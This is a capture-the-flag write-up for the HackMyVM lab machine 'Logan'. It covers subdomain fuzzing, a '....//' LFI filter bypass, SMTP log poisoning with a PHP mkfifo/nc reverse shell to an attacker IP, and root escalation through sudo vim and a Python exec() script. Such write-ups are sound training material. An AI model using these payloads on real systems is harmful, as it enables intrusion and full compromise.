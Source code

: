 # writeup logan hackmyvm

## machine info
- VmName : Logan
- Creator : d3b0o
- Level : medium
- Link : [https://downloads.hackmyvm.eu/logan.zip](https://downloads.hackmyvm.eu/logan.zip)

## walkthrough
### summary
- get a subdomain using web fuzzer
- find LFI from the subdomain web site
- write php reverse shell into postfix log file
- get a user shell (www-data) using LFI
- get a user shell (logan) using sudo command
- get a root shell using sudo command

### get machine ip address
```
sudo netdiscover -i eth0 -r 192.168.0.0/24
```
```mermaid
flowchart LR
    id1("kali (attacker)
    192.168.0.4")
    ----
    id2("logan.hmv (target)
    192.168.0.254")
```

### scan open ports
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nmap -T4 -sC -sV -p- -oN nmap.log 192.168.0.254
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-19 03:21 EDT
Nmap scan report for discover (192.168.0.254)
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
| ssl-cert: Subject: commonName=logan
| Subject Alternative Name: DNS:logan
| Not valid before: 2023-07-03T13:46:49
|_Not valid after:  2033-06-30T13:46:49
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: logan.hmv, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  logan.hmv

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds
```

### get a user shell
I checked out a website (port 80).
- whatweb
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ whatweb http://logan.hmv                  
http://logan.hmv [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.0.254], JQuery[3.4.1], Script[text/javascript], Title[Logan], X-UA-Compatible[IE=edge]
```
![](./img/web_01.png)

I think that a form of this website is not working.
![](./img/web_02.png)
![](./img/web_03.png)

I could not find useful information from the website.
So, I tried to find a subdomain.
- wfuzz
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://logan.hmv" -H "HOST: FUZZ.logan.hmv" -t 100 -Z --hh 65 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://logan.hmv/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================

000000024:   200        62 L     101 W      1112 Ch     "admin - admin"                                                            
000009532:   400        10 L     35 W       301 Ch      "#www - #www"                                                              
000010581:   400        10 L     35 W       301 Ch      "#mail - #mail"                                                            
000047706:   400        10 L     35 W       301 Ch      "#smtp - #smtp"                                                            
000103135:   400        10 L     35 W       301 Ch      "#pop3 - #pop3"                                                            

Total time: 217.2565
Processed Requests: 114441
Filtered Requests: 114436
Requests/sec.: 526.7551
```

I could find a subdomain website (admin.logan.hmv).
So, I checked out the website.
- Administration panel
![](./img/web_04.png)
- Upload files
![](./img/web_05.png)
I have uploaded some files. But, I could not find the files from the website.
- Logs
![](./img/web_06.png)
There was no clearlogs.php file on the website. There was no backup files (clearlogs.php.bak, and so on) too.
- Payments
![](./img/web_07.png)
I found that there was some files (01, 02, 03) on the website.
I realized the website removed "../" strings from input strings after trying many things.
![](./img/web_08.png)
So, I tried "....//....//....//....//etc/passwd" strings, I could get LFI (Local File Inclusion) from the website.
![](./img/web_09.png)

Because I could read a postfix log file from the website using LFI, I tried to get a shell using it.
![](./img/web_10.png)
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nc logan.hmv 25
220 logan.hmv ESMTP Postfix (Ubuntu)
mail from:logan
250 2.1.0 Ok
rcpt to:<?php exec("rm /tmp/p;mkfifo /tmp/p;cat /tmp/p|/bin/sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/p"); ?>
501 5.1.3 Bad recipient address syntax
```
![](./img/shell_01.png)
I could get a user shell (www-data).

When I executed sudo command, I found that I could execute vim command with logan's privileges.
```
www-data@logan:/var/www/admin$ sudo -l
Matching Defaults entries for www-data on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on logan:
    (logan) NOPASSWD: /usr/bin/vim
www-data@logan:/var/www/admin$ 
```

So, I executed vim command with logan's privileges and execute bash command from vim.
![](./img/shell_02.png)
```
www-data@logan:/var/www/admin$ sudo -u logan /usr/bin/vim

logan@logan:/var/www/admin$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan),27(sudo),1002(administration)
```

I could get a user shell (logan) and a user flag (logan). 😺
```
logan@logan:~$ ls -la
total 36
drwxr-xrwx 4 logan logan 4096 Jul 18 08:42 .
drwxr-xr-x 3 root  root  4096 Jul 17 20:59 ..
lrwxrwxrwx 1 root  root     9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r-x 1 logan logan  220 Jan  6  2022 .bash_logout
-rw-r--r-x 1 logan logan 3771 Jan  6  2022 .bashrc
drwx---r-x 2 logan logan 4096 Jul  3 13:41 .cache
drwxrwxr-x 3 logan logan 4096 Jul 17 12:08 .local
-rw-r--r-x 1 logan logan  807 Jan  6  2022 .profile
-rw-r--r-x 1 logan logan    0 Jul  3 13:42 .sudo_as_admin_successful
-rw-r--r-- 1  1002  1003   68 Jul 17 12:41 to-do
-rw-r--r-- 1 logan logan   16 Jul 17 20:45 user.txt
logan@logan:~$ cat user.txt 
User: i*******s
```

### get a root shell
```
logan@logan:~$ cat to-do 
- Go outside
- Try the new script that gave me root to learn python
```

When I executed sudo command, I found that I could execute a python script with root's privileges.
```
logan@logan:~$ sudo -l
Matching Defaults entries for logan on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User logan may run the following commands on logan:
    (root) NOPASSWD: /usr/bin/python3 /opt/learn_some_python.py
logan@logan:~$ ls -l /opt/learn_some_python.py
-rw------- 1 root root 132 Jul 18 08:48 /opt/learn_some_python.py
```

So. I tried to execute the script.
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

aaaaa
Traceback (most recent call last):
  File "/opt/learn_some_python.py", line 3, in <module>
    exec(comand)
  File "<string>", line 1, in <module>
NameError: name 'aaaaa' is not defined
```

It looks like I can enter python scripts into the exec function.
So, I entered the following.
```
import os;os.system("/bin/bash");
```
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

import os;os.system("/bin/bash");
root@logan:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

I could get a root shell and a root flag. 😺
```
root@logan:~# ls -la
total 48
drwx------  5 root root 4096 Jul 17 21:02 .
drwxr-xr-x 19 root root 4096 Jul  3 13:40 ..
lrwxrwxrwx  1 root root    9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Jul  3 14:10 .launchpadlib
-rw-------  1 root root   20 Jul 17 11:52 .lesshst
drwxr-xr-x  3 root root 4096 Jul  3 13:46 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Jul  4 19:13 .selected_editor
-rw-r--r--  1 root root    0 Jul  3 13:45 .sudo_as_admin_successful
-rw-------  1 root root  985 Jul 17 14:27 .viminfo
-rw-r--r--  1 root root  169 Jul  3 14:15 .wget-hsts
-rw-r--r--  1 root root   17 Jul 17 20:44 root.txt
drwx------  3 root root 4096 Jul  4 15:52 snap
root@logan:~# cat root.txt 
Root: s********u
```
